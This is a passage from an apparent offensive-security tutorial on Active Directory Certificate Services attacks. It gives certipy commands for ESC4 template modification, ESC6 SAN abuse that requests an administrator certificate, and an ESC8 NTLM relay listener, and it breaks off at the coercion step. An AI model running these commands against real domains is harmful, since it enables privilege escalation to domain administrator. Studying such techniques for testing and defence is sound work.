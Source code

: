 In `ESC4`, we will write privilege over a certificate template. Here, we are going to cheat a bit XD. We are not going to exploit `ESC4` as we did with the previous template exploit. Here, we are going to use `ESC4` to change the template and make it vulnerable to `ESC1`:

```bash
certipy template -u $USER@$DOMAIN.local -p $PASSWORD -template ESC4 -save-old -debug
```

Now that the template is vulnerable to `ESC1`, we can exploit it as follows:

```bash
certipy req -u USER@$DOMAIN.local -p $PASSWORD -target $CA_SERVER.$DOMAIN.local -template ESC4 -ca $CA_NAME -upn administrator@$DOMAIN.local
```

> Because we did a modification over the template, we can rollback to the previous template using this command `certipy template -u USER@$DOMAIN.local -p $PASSWORD -template ESC4 -configuration ESC4.json`  The `ESC4.json` is generated in the first command thanks to the parameter `-save-old`.
{: .prompt-tip}

##### ESC5 

Because `ESC5` is less common and used so here is [a link](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c) that explains it in detail.

##### ESC6

With `ESC6`, we are going to abuse the `ATTRIBUTESUBJECTALTNAME2` flag set on the `CA`. This flag allows the enrollee to specify an arbitrary SAN (Subject Alternative Name) on all certificates despite a certificate template's configuration. To get the certificate, we can run the following command:

```bash
certipy req -u USER@$DOMAIN.local -p $PASSWORD -target $CA_SERVER.$DOMAIN.local -template User -ca $CA_NAME -upn administrator@$DOMAIN.local
```

##### ESC7

As for `ESC5`, `ESC7` is also not common and used so here is [another link](https://www.tarlogic.com/blog/ad-cs-esc7-attack/) to get more information about it.

##### ESC8

`ESC8` is a bit different. We don't request directly a certificate and use it to get the administrator `NT` hash. Here we are going to use NTLM Relay (this attack will be explained in more details in the next chapter). But the main idea is that we are going to receive a connexion with a `Coertion` for exemple (`Coertion` is the action to force a machine to authenticate to us.) and then use this received connexion to relay it to the same protocol or a different one (for more information check out the `NTLM relay` chapter). For more simple exemple, we are going to use `certipy` that will do the NTLM relay for us.

First, we use `certipy` as a listener:

```bash
certipy relay -ca $CA_IP -template DomainController
```

Now we are going to use the tool [petitpotam](https://github.com/topotam/PetitPotam) that will trigger the coertion:
